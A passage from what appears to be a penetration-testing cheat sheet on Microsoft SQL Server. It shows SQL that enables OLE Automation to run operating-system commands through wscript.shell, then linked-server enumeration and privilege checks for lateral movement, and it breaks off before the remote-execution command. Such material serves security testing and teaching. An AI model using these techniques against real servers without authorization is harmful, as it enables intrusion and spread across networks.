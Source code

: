 ### <mark style="color:yellow;">Command Execution via OLE Automation Stored Procedure</mark>

By default this is disabled but it can be enabled

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'ole automation procedures', 1;
RECONFIGURE;
```

OLE Automation allows to use other languages like VBS from a SQL query. Create a wscript.shell and execute a command.

```sql
DECLARE @objShell INT;
DECLARE @output varchar(8000);

EXEC @output = sp_OACreate 'wscript.shell', @objShell Output;
EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"';
```

## Lateral Movement

In `MSSQL Server`, there is the concept of [linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16). By linking server A to B its possible to execute queries on server B from server A.

* OPENQUERY: Run query on linked server
* EXECUTE AT: Run query on linked server
* OPENROWSET: Connects and runs a query on server

### <mark style="color:yellow;">Enumerate Linked Servers</mark>

```sql
EXEC sp_linkedservers;
```

Use OPENQUERY to return database

```sql
SELECT * FROM OPENQUERY(SQL02, 'SELECT name, database_id, create_date FROM sys.databases');
```

### <mark style="color:yellow;">Remote Command Execution via EXECUTE AT</mark>

Check permissions, we need sysadmin role.

```sql
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');
```

Execute a command remotely using linked server
